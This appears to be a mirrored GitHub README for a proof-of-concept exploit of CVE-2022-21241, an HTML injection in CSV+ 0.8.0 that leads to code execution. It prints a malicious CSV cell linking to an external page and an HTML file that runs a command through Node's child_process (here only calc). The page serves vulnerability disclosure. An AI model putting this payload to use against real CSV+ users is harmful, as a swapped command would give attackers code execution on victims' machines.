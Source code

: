 # csv-plus_vulnerability

👻 [PoC] CSV+ 0.8.0 - Arbitrary Code Execution (CVE-2022-21241)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/satoki](https://github.com/satoki) |
| Url      | [https://github.com/satoki/csv-plus_vulnerability](https://github.com/satoki/csv-plus_vulnerability)                                               |
| Stars    | 25                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cybersecurity* exploit* poc* security

</details>

## Readme

# csv-plus_vulnerability
👻 2-Click Arbitrary Code Execution Vulnerability.  

![PoC.gif](files/PoC.gif)  

CVE-2022-21241  

⚠  
**This PoC was created to alert users and investigate vulnerabilities in their own CSV+, and is prohibited to be used for attacks.**

## Vulnerability
The following versions are vulnerable.  
- CSV+ <= 0.8.0  

Attackers can execute arbitrary code by using the Node.js functionality.
They will place the malicious js code on some site and link it from a-tags with the HTML injection vulnerability in CSV+.

## PoC
![scenario.png](files/scenario.png)  
### Malicious csv file
```csv
<a href='https://electronooooo.htmlbin.net/xsscalc.html'>click me 👻</a>
```
`https://electronooooo.htmlbin.net/xsscalc.html` is a temporary link.  
### Malicious html file (calc)
```html
<!DOCTYPE html>
<html>
    <head>
        <script>
        if (confirm("Do you want to run a calculator to check for vulnerabilities?")){
            var cmd = "calc";
            require("child_process").exec(cmd);
        }
        </script>
    </head>
    <body>
        Hi :)
    </body>
</html>
```



## Get the content

```
git clone https://github.com/satoki/csv-plus_vulnerability
cd csv-plus_vulnerability
```

{% embed url="https://github.com/satoki/csv-plus_vulnerability" %}

<figure><img src="https://avatars.githubusercontent.com/u/54702093?v=4" alt=""><figcaption><p>satoki</p></figcaption></figure>
